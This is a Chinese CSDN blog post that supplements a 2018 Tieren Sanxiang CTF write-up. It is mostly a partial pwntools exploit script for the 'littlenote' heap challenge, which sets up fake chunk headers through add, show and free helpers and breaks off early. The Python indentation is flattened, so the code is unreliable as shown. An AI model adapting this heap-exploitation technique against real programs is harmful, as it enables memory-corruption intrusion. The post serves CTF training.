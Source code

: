 

# 信息安全铁人三项赛真题解析_对 [CrackMe] 【ctf】2018信息安全铁人三项赛个人赛总决赛赛题分享 的一些补充..._weixin_39587238的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_39587238/article/details/112805884](https://blog.csdn.net/weixin_39587238/article/details/112805884)

原贴主地址:https://www.52pojie.cn/thread-837939-1-1.html

littenote这道题的exp

#------------------------------------------------------------------------------------------------------------------------------------

from pwn import *

io=process('./littlenote')

#context(os='linux',arch='amd64',log_level='debug')

def add(content,choose):

io.sendline('1')

io.recvuntil('Enter your note\n')

io.send(content)

io.recvuntil('Want to keep your note?\n')

io.sendline(choose)

io.recvuntil('Done\n')

def show(index):

io.sendline('2')

io.recvuntil('Which note do you want to show?\n')

io.sendline(str(index))

return (io.recvuntil("\nDone\n"))[:-6]

def free(index):

io.sendline('3')

io.recvuntil('Which note do you want to delete?\n')

io.sendline(str(index))

io.recvuntil('Done\n')

def main():

add('\x00'*0x58+p64(0x71),'Y')

add('a','Y')

add((p64(0x0)+p64(0x21))*6,'Y')
